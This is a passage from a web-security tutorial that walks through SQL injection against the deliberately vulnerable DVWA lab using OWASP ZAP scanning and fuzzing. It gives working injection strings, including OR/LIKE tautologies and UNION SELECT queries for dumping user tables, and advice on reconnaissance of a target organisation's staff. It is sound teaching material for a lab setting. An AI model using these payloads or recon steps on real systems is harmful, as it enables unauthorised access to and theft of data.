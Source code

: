 {icon=bomb}
G> ## The Play
G>
G> In your Kali Linux box, run owasp-zap.  
G> If chromium is not already running, run it and setup foxyproxy for chrome using the burp proxy we set-up in the Tooling Setup chapter of [Fascicle 0](https://leanpub.com/holistic-infosec-for-web-developers). Zap is now recording your browsing.
G>
G> Once you have started the VM and browsed to it, select the DVWA and log in as  
G> user: "user", password "user". Make sure the Security Level is set to low.
G>
G> Navigate to the SQL Injecton page and enter `1` in the input box.
G>
G> In Zap: Right click on dvwa -> Attack -> Active Scan -> Start Scan
G>
G> When the scan has finished: go to the Alerts tab -> Select SQL Injection -> look at the request and response.  
G> See Zap used a union query, but response said "The used SELECT statements have a different number of columns". Which means if we use the correct number of columns we will have success.  
G>
G> In Request tab, select input parameter -> right click and select Fuzz -> Payloads -> Add -> Select File Fuzzers from "Type" dropdown. jbrofuzz->SQL Injection->SQL Injection -> Add -> OK -> Start Fuzzer
G>
G> Notice the `x' OR full_name LIKE '%bob%` in the Fuzzer tab?
G>
G> Then try the following in dvwa input:
G>
G> `x' OR full_name LIKE '%bob%`  
G> Output: Tells us we are in a where clause and I had an unknown column name.  
G> Thanks MySQL error reporting!
G>
G> Try the following queries:  
G> `x' OR first_name LIKE '%bob%`     # This works  
G> `x' OR last_name LIKE '%smith%`    # This works  
G> `x' OR first_name LIKE '%`         # And as expected, we get what we think are all users.
G>
G> Also the recon stage may tell us a lot about naming conventions and more. Once you know who the employees are:  
G> Search stackoverflow, github, etc for tidbits. Also [gitrob](https://github.com/michenriksen/gitrob)  
G> As we try different things, we learn more about naming conventions.  
G> You may also be able to find out about the target organisations naming conventions by looking around the internet. Github, Bitbucket, Stackoverflow and many other sites usually yield useful information.
G>
G> `x' OR user LIKE '%`               # This works  

{icon=bomb}
G> I thought the query on the server looked something like this:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = ''`
G>
G> Time to work out what the table name is.
G>
G> Lets try users. I'm thinking that the full query will look like:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = '1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: Unknown column 'ID'  
G> Lets fix that:  
G> `1' UNION SELECT user_id, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: "The used SELECT statements have a different number of columns"  
